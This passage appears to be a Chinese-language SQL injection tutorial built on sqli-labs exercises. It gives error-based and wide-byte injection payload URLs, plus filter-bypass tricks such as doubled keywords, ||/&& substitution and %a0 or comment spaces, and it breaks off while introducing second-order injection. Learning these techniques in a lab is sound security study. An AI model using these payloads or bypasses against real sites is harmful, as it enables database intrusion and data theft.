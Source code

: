 同以Less-6举例

payload：

> http://localhost/Less-6/?id=0%22%20or%20updatexml(1,concat(%22:%22,version(),1),1)%20--+

result：

![](/img/sql/err2.png)

## 0x05 绕过技巧

### 宽字节注入

*对于那些使用gbk编码的页面，当源码对输入进行加斜杆的转义时,可以使用宽字节注入绕过。*

以Less-33举例：

参数被addslashes函数转义。

payload:

> http://localhost/Less-32/?id=0%df%27%20union%20select%201,2,3%20--+

由于mysql的特性，因为gbk是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，而’逃逸了出来。

### or/and 绕过

-   `||`=or,`&&`=and
-   双写绕过，如oorr\aandnd

### 空格绕过

-   / \*\*/绕过
-   %a0绕过

%a0绕过原理：在进行正则匹配时，匹配到它时是识别为中文字符的，所以不会被过滤掉，但是在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理，就这样，我们便达成了Bypass的目的，成功绕过空格+注释的过滤

### 二次注入

*利用源码的逻辑错误注入*

以Less-24举例

源码：

![](/img/sql/two.png)

